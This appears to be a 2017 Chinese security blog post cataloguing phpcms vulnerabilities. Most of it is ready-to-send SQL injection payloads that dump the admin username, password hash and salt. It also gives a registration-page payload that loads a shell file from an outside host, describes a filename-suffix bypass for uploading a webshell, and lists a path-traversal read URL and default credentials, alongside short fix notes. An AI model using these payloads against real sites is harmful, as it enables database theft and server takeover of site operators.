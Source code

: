 ```yaml
---
title: phpcms漏洞
date: 2017-04-12 09:07:42
comments: true
tags:
- phpcms漏洞
- 文件包含漏洞
- cms漏洞
categories: web安全
permalink: 01
---
```

<blockquote class="blockquote-center">风华是一指流砂，苍老是一段年华</blockquote>
　　最近某位大牛说，将放出3个phpcms的0day漏洞，目前我所了解到的已经有2个phpcms漏洞被流传开来，并放出了poc。phpcms应用范围还是比较广的，在此记录分享一下几个最新的phpcms漏洞。
<!--more -->
免责申明：*文章中的工具等仅供个人测试研究，请在下载后24小时内删除，不得用于商业或非法用途，否则后果自负*

### phpcms sql漏洞
#### Poc
存在sql注入漏洞的页面：
http://192.168.1.139:8080/phpcms/index.php?m=member&c=index&a=login
获取当前数据库，post：
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2bdatabase())%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
获取当前用户，post：
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2buser())%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
获取表名：
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2btable_name%2bfrom%2binformation_schema.tables%2bwhere%2btable_schema='phpcmsv9'%2blimit%2b0%252c1)%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
若要获取其他表名，修改limit即可。
获取用户名:
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2busername%2bfrom%2bv9_admin%2blimit%2b0%252c1)%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
获取密码：
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2bpassword%2bfrom%2bv9_admin%2blimit%2b0%252c1)%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
获取到的密码为30位的md5，一般的MD5是32位，所以我们需要再获取后2位：
```bash
orward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(substring((select%2bpassword%2bfrom%2bv9_admin%2blimit%2b0%252c1)%252c-2%252c2))%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
phpcms是加盐（salt）的，获取salt:
```bash
forward=http%253A%252F%252F192.168.1.139%253A8080%252Fphpcms%252Findex.php%253Fm%253Dmember&username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2bencrypt%2bfrom%2bv9_admin%2blimit%2b0%252c1)%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523&code=验证码&dosubmit=%E7%99%BB%E5%BD%95
```
以上Poc来自：https://www.unhonker.com/bug/1834.html

#### exp漏洞利用脚本
exp利用脚本在这里不公开放出了，大家可以利用在线检测平台进行检测：https://www.seebug.org/monster/
exp脚本可以参考：https://www.waitalone.cn/phpcmsv9-authkey-exp.html
漏洞细节请参考：http://mp.weixin.qq.com/s/cI-wbQyX-3WLhxJ5kqez4A

#### 漏洞修复方案
* 去掉modules\content\down.php文件

### phpcms注册页面getshell漏洞

* 存在的漏洞：php远程文件包含、任意文件上传
* 漏洞利用点：phpcms注册页面
* 利用类型：http post请求导致任意文件上传+getshell

#### Post Poc
```bash
siteid=1&modelid=11&username=newbie&password=newbie&email=newbie@qq.com&info[content]=<img src=http://shhdmqz.com/newbie.txt?.php#.jpg>&dosubmit=1&protocol=
```
注意：*http://shhdmqz.com/newbie.txt*为远程服务器上的shell文件，这个漏洞利用了远程文件包含与文件上传漏洞。

#### 漏洞利用细节
　　访问注册页面发送post包，重构info字段内容，写入远程包含的文件地址《*img src=http://shhdmqz.com/newbie.txt?.php#.jpg*》，newbie.txt为文件名，?.php#.jpg为构造的文件名，为了绕过后缀名限制。回包将会有报错信息，但文件可以上传成功，且报错信息中含有上传的文件路径，可用菜刀链接。

#### exp漏洞利用脚本
exp利用脚本在这里不公开放出了，大家可以利用在线检测平台进行检测：https://www.seebug.org/monster/

#### 漏洞修复方案

暂时性修复：

* 关闭注册页面
* 关闭远程文件包含，即关闭allow_url_fopen

彻底性修复：
修改phpcms/libs/classes/attachement.class.php文件中的download函数在
foreach($remotefileurls as $k=>$file)循环中，大约是167行左右的位置，将
```bash
if(strpos($file, '://') === false || strpos($file, $upload_url) !== false) continue;            $filename = fileext($file);
```
修改成
```bash
$filename = fileext($k);
```

关于文件包含漏洞，可参考：[文件包含漏洞](http://thief.one/2017/04/10/2/)

### 任意文件读取漏洞
```bash
index.php?m=search&c=index&a=public_get_suggest_keyword&url=asdf&q=..\/..\/caches/error_log.php 
```
### phpcms敏感信息

* 默认账号密码：phpcms/phpcms
* 默认后台： http://www.xx.com/index.php?m=admin&c=index&a=login&pc_hash=   
* 会员中心地址：index.php?m=member&c=index&a=login 


*本篇将持续跟踪phpcms最新漏洞状况，并附上检测方法以及修复方案，协助管理员早日修复漏洞，谢谢！*

>转载请说明出处:[phpcms漏洞| nMask'Blog](http://thief.one/2017/04/12/1/)
本文地址：http://thief.one/2017/04/12/1/



